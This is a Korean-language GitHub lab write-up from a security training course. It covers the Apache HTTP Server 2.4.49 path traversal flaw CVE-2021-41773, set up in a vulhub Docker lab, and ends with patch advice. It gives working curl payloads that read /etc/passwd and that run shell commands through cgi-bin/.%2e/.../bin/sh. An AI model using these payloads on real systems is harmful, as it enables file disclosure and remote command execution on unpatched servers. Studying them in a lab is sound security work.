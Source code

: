 # CVE-2021-41773 | Apache HTTP Server 2.4.49 Path Traversal 취약점

> 화이트햇 스쿨 3기 (20반) - [김혜지 (@hyeroro)](https://github.com/hyeroro)

<br/>

## 취약점 개요

- **CVE ID**: CVE-2021-41773
- **취약점 유형**: Path Traversal(경로 탐색)
- **CVSS 점수**: 7.5 (High)
- **영향 받는 버전**: Apache HTTP Server 2.4.49
- **발견 날짜**: 2021년 10월 4일
- **패치 버전**: Apache HTTP Server 2.4.50 또는 이후 버전

이 취약점은 Apache HTTP Server 2.4.49에서 경로 정규화가 제대로 처리되지 않아 발생합니다. 공격자는 URL 경로 탐색 시퀀스를 사용하여 웹 루트 디렉토리 외부의 파일에 접근하거나 CGI 스크립트를 통해 명령을 실행할 수 있습니다.

<br/>

## 환경 구성
### 사용한 도구
- OS: Ubuntu 20.04 LTS
- Docker 버전: 28.0.1
- Docker Compose 버전: v2.33.1-desktop.1

### 명령어
```sh
# vulhub 저장소 클론
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2021-41773

# Docker 컨테이너 실행
docker-compose up -d
```
![setting](./images/setting.png)

<br/>

## PoC 및 결과

### 취약점 원인
Apache HTTP Server 2.4.49에서는 URL 경로 정규화 과정에서 결함이 있어 %2e (URL 인코딩된 점)을 사용한 디렉토리 탐색이 제대로 차단되지 않습니다. 이로 인해 공격자는 서버의 파일 시스템에 있는 임의의 파일에 접근할 수 있습니다.

### 경로 탐색 (Path Traversal) 테스트
/etc/passwd 파일 접근
```bash
curl -v —path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
![PathTraversal2](./images/PathTraversalTest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```
![PathTraversal](./images/PathTraversalTest.png)


### 원격 코드 실행 (RCE) 테스트
```bash
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```
![RCEtest](./images/RCEtest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```
![RCEtest](./images/RCEtest.png)

<br/>

## 결론
  본 분석을 통해 Apache HTTP Server 2.4.49 버전에서 발생하는 CVE-2021-41773 취약점이 심각한 보안 위협임을 확인했습니다. 이 취약점은 경로 정규화 과정의 결함으로 인해 공격자가 URL 인코딩된 .(%2e) 문자를 사용하여 웹 루트 디렉토리 외부의 파일에 접근할 수 있도록 허용합니다.

  실제로 /etc/passwd와 같은 시스템 파일을 읽는 경로 탐색(Path Traversal) 공격이 성공함을 PoC를 통해 확인하였으며, 특히 CGI 스크립트가 활성화된 환경에서는 /bin/sh와 같은 쉘 실행 파일을 통해 임의의 시스템 명령어를 실행할 수 있는 원격 코드 실행(RCE)으로 이어질 수 있음을 입증했습니다. 이는 공격자가 서버의 민감한 정보에 접근하거나 시스템을 완전히 장악할 수 있음을 의미하며, 그 위험성이 매우 높습니다.

  따라서 Apache HTTP Server 2.4.49 버전을 운영 중인 관리자는 즉시 취약점이 해결된 Apache HTTP Server 2.4.50 또는 이후 버전으로 업데이트하는 것이 필수적입니다. 신속한 패치는 해당 취약점을 이용한 공격 시도를 차단하고 시스템의 보안을 강화하는 가장 효과적인 방법입니다. 또한, 웹 서버 설정에서 불필요한 CGI 실행 권한을 제한하고, 중요한 시스템 파일에 대한 접근 제어를 강화하는 등의 추가적인 보안 조치를 고려해야 합니다.

#### 구현된 GitHub 레포지토리 링크
- [링크](https://github.com/hyeroro/kr-vulhub)

#### pull request 링크
- [링크](https://github.com/gunh0/kr-vulhub/pull/255#issue-3022164231)
